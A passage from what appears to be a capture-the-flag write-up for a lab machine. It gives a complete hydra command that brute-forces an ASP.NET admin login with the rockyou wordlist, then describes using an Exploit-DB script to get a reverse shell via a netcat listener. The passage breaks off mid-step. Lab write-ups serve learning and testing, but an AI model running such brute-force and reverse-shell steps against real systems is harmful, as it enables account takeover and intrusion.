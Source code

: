 To the second option, the following website was very useful for me. [WebSite](https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/)



Final command:

	hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.44.157 http-post-form "/Account/login.aspx?ReturnURL=%2fadmin%2f:__VIEWSTATE=W1UcrOTkoRaGvqB9lcU%2B3HEsKay6%2F0hsXzSDCa5pSb2IqmN3ONWFGqKmNYJAKYMQfM%2F5cw7OG2UF2fhT8K4tmkbWJ3EdCDWZEQbJsXghW9Bujyvx9wUbA2na2Zi2lNwCie%2B%2FQ65cpAtBQhYdowF8gJ1hZ5d8rixsZP%2FiMJMK87dnkScsZqXQC8DDnt2%2BoUKJ5qmo0%2FbTC%2Bnl%2BMsAPVBHFkhE9FuzbduomdTw2mH5nrploXc5SpujZ5H49S%2BfZ7xGYYLqOWRNshS0XRIlsq%2FgAJqndtfTgcpSLI9Wim7Sm6qIb9keAIEkQ4ZnGzEy1Wh8Ij2ldhpndhZoTuI5zHEVxxnzBQwfhwVfgRRopMQDNeZat6qx&__EVENTVALIDATION=eJbll7x6cguuec%2F4hO2MIzAbYAsagKL3ZQSJrTntwo%2FnDaxJnYUtfEZFD2jGqHQerDYFgK4PjYAkoG3X%2FOLO7d303cnughgt2o3eE89ZsHjy86pmDFm8nedB%2Fz%2FkmqgRBAXQ6DWGf%2F9W5LCADx3uGVcshXGBIGPCILPc8z5j5diUzTIt&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"


![7]

![8]

![9]

Following the steps from the previously mentioned page, we can obtain all the necessary parameters to perform the injection. It is important to add the two colons before "__VIEWSTATE" to indicate to Hydra the variable we are going to attack.

The parameters we modify in the entire request are UserName and Password.

Is important to add a colon at the end of the parameters and specify the error message that Hydra should detect to know that the login attempt was unsuccessful.


Finally, we were able to obtain the password for the admin user.

## Initial Access 

We already have credentials for the web service administrator. To obtain initial access, we will resort to the script that we mentioned during the enumeration phase. [exploit](https://www.exploit-db.com/exploits/46353)

We just need to follow the instructions of the script.

![10]

![11]

We will change the TcpClient parameter by indicating our IP and port, where we will receive a reverse shell from the machine through a netcat listener. It is important to rename the file to "PostView.ascx".

![12]

We're going to navigate to the path
